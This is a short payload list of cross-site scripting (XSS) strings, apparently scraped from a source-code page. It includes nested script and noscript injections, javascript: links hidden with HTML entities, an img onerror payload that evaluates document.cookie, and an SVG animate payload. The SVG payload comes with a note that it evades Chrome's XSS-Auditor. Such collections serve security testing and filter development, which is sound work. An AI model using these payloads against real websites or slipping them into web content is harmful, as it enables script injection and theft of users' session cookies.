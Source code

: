<output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>This payload injects a malicious script into an SVG element. The script sets the href attribute of the animate element to javascript:alert(1), which will execute the alert function when clicked. Since the script is injected into an SVG element, the Chrome XSS-Auditor fails to detect it.
